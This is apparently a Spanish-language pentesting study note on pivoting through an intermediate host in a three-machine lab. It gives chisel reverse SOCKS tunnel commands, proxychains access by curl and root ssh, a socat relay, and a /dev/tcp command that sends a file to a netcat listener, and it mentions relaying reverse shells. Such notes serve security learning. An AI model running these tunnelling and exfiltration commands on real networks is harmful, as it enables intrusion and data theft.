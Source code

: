 ### De esta manera todo el tráfico será constantemente redirigido de un lado al otro para poder tener conexión, siempre se le tiene que enviar traza al nodo más cercano: 

![[enviroment_pivoting_3_machines.png]]

### En este ejemplo, contamos con la Máquina 1 de IP **192.168.1.38** la cual se encuentra en el mismo segmento de red que la Máquina 2 (**192.168.1.33**) la cual a su vez tiene un segundo segmento de red (10.10.0.0/24) compartido con una Máquina 3 (**10.10.0.129**)

### De manera que si desde la Máquina 1 queremos poder tener traza con la Máquina 3 habría que hacer uso de **chisel** 

#### Máquina 1: 
### `chisel server --reverse -p 1234`
#### Máquina 2: 
### `chisel client 192.168.1.38:1234 R:4000:socks`
#### Máquina 1: 
### `echo "127.0.0.1 4000" >> /etc/proxychains4.conf`
### `proxychains curl -s -X GET http://10.10.0.129`

### De esta manera haciendo uso de chisel desde la máquian 1 creamos un servidor por el puerto 1234, desde la máquina intermediaria nos conectamos a este servidor fijando en el puerto 4000 de la máquina dueña del servidor de chisel un tunel para el tráfico. De manera que si configuramos las reglas correctamente en el archivo **proxychains4.conf** indicando el puerto, la máquina 1 tendrá una manera de conectar con la máquina 3 pasando toda la conexión mediante este tráfico. 

### De manera que se podrá conectar mediante ssh, entre otras cosas. 
#### Máquina 1:
### `proxychains ssh root@10.10.0.129`

### Por otro lado, si lo que necesitamos es un "traspaso" de archivos, envíos de reverse shells, etc. Necesitaremos hacer uso de **socat**, donde una vez más la máquina intermediaria se tendra que ocupar de redirigir todo el tráfico de red entrante por un puerto a una determinada dirección. 

#### Máquina 1: 
### `nc -nlvp 443 > binary.txt`
#### Máquina 2: 
#### `socat TCP-LISTEN:5566,fork TCP:192.168.1.38:443`
#### Máquina 3: 
### `cat < binary.txt > /dev/tcp/10.10.0.128/5566`
